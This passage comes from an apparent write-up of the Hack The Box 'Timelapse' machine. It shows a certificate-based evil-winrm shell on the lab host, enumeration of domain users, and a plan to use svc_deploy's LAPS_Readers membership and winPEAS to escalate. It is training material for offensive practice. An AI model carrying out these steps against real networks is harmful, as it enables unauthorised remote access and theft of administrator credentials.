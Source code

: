 ```bash
Enter Import Password:
```

Now try to connect to the box using `evil-winrm`.
```bash
evil-winrm -i 10.10.11.152 -S -k priv-key.pem -c certificate.pem                      

Evil-WinRM shell v3.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```
We got shell into the box as `legacyy`, and we can grab the user flag from the `Desktop` folder of `legacyy`.

## User enumeration
```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```
`svc_deploy` looks interesting. Let's check its privileges.
```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/3/2022 10:38:58 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
We can see that `svc_deploy` is part of `LAPS_Readers`. If we can get shell as `svc_deploy`, then we can read `laps` password. We will use `winpeas.exe` for enumeration. Get the `winpeas` executable into the box and run it.